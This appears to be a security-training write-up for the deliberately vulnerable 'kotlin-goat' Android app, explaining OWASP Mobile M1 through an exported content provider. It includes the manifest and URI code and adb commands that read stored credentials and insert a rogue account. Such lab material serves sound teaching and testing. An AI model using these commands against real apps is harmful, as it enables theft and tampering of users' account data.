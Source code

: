 M1: Improper Platform Usage
===========================
From the Android documentation: "Content providers are one of the primary building blocks of Android applications, providing content to applications". Content providers are mostly used to share data between Android applications. Such as Activities, Services or Receivers, Content providers can have weak permissions or can be exported for all the apps on the device. Such misconfiguration can lead the Android app to leak the data used by the Content provider.

When the Content provider is exported, all the apps can query the Content provider to retrieve or modify the data. On the kotlin-goat app, we can identifiy that a Content provider is defined with the name ".AccountProvider" and the exported tag is set to true. Here is an extract of the AndroidManifest file:
```
<provider
            android:name=".AccountProvider"
            android:authorities="com.cx.vulnerablekotlinapp.accounts"
            android:enabled="true"
            android:exported="true" />
```

Looking at the code on the AccountProvider.kt class, we can retrieve the Content URI:
```
companion object {
        private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
        private val ACCOUNTS_TABLE = "Accounts"
        val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
        private val DATABASE_NAME = "data"
    }
```

Then, using the adb tool, we can query this provider and even insert data. Here is simple example allowing to query the provider in order to retrieve the accounts stored:
```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin

```

Another example allowing to add a new account:
```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat

```

## Resources

### Tools

* adb

### Readings

* [Content Provider documentation] [1]
* [Testing Platform Interaction] [2]

[1]: https://developer.android.com/reference/android/content/ContentProvider
[2] : https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md